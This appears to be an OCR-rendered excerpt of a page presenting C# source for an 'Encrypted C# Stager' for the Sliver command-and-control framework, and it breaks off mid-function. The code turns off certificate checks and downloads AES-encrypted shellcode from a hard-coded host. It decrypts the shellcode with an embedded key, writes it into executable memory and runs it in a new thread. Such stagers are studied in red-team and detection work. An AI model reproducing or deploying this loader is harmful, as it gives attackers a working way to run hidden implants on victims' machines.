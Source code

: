 ```c#
}
```

## Encrypted C# Stager 

```c#
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://192.168.24.128:8443/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length -1; i++) {
                l.Add(shellcode[i]);
            }

            byte[] actual = l.ToArray();

            byte[] decrypted;

            decrypted = Decrypt(actual, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
            Marshal.Copy(decrypted, 0, addr, decrypted.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);
```